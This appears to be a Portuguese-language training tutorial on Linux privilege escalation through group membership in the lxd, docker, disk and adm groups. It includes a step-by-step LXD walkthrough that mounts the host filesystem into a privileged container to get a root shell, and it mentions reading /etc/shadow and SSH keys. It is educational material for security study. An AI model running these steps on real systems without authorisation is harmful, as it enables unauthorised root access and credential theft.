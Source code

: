 ## LXC / LXD

É o gerenciador de contêineres do Ubuntu. Após a instalação, todos os usuários são adicionados ao grupo LXD. A associação a esse grupo pode ser usada para escalar privilégios criando um contêiner LXD, tornando-o privilegiado e, em seguida, acessando o sistema de arquivos do host em `/mnt/root`.

```shell-session
devops@NIX02:~$ id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

Descompacte a imagem Alpine.

```shell-session
devops@NIX02:~$ unzip alpine.zip 

Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz  
inflating: 64-bit Alpine/alpine.tar.gz.root  
cd 64-bit\ Alpine/
```

Inicie o processo de inicialização do LXD. Escolha os padrões para cada prompt. Consulte esta [postagem](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) para obter mais informações sobre cada etapa.

```shell-session
devops@NIX02:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge
```

Importe a imagem local.

```shell-session
devops@NIX02:~$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b
```

Inicie um contêiner privilegiado com o conjunto  `security.privileged` como `true` para executar o contêiner sem um mapeamento de UID, tornando o usuário root no contêiner o mesmo que o usuário root no host.

```shell-session
devops@NIX02:~$ lxc init alpine r00t -c security.privileged=true

Creating r00t
```

Monte o sistema de arquivos host.

```shell-session
devops@NIX02:~$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t
```

Por fim, gere um shell dentro da instância do contêiner. Agora podemos navegar pelo sistema de arquivos do host montado como root. Por exemplo, para acessar o conteúdo do diretório root no host, digite `cd /mnt/root/root`. 

A partir daqui, podemos ler arquivos sensíveis como `/etc/shadow`e obter hashes de senha ou obter acesso a chaves SSH para conectar ao sistema host como root e muito mais.

```shell-session
devops@NIX02:~$ lxc start r00t
devops@NIX02:~/64-bit Alpine$ lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ # 
```

## Docker
Colocar um usuário no grupo docker é essencialmente equivalente ao acesso de nível root ao sistema de arquivos sem exigir uma senha. Membros do grupo docker podem gerar novos contêineres docker. Um exemplo seria executar o comando `docker run -v /root:/mnt -it ubuntu`.

Este comando cria uma nova instância do Docker com o diretório /root no sistema de arquivos host montado como um volume. Depois que o contêiner é iniciado, podemos navegar até o diretório montado e recuperar ou adicionar chaves SSH para o usuário root.

Isso pode ser feito para outros diretórios, como `/etc` que podem ser usados ​​para recuperar o conteúdo do `/etc/shadow`arquivo para quebra de senha offline ou adição de um usuário privilegiado.

## Disk

Usuários dentro do grupo de disco têm acesso total a quaisquer dispositivos contidos em `/dev`, como `/dev/sda1`, que normalmente é o dispositivo principal usado pelo sistema operacional.

Um invasor com esses privilégios pode usar `debugfs`para acessar todo o sistema de arquivos com privilégios de nível root. Assim como no exemplo do grupo Docker, isso pode ser aproveitado para recuperar chaves SSH, credenciais ou para adicionar um usuário.

## ADM
Os membros do grupo adm podem ler todos os logs armazenados em `/var/log`. Isso não concede acesso root diretamente, mas pode ser aproveitado para reunir dados sensíveis armazenados em arquivos de log ou enumerar ações do usuário e executar tarefas cron.

```shell-session
secaudit@NIX02:~$ id

uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)
```



































































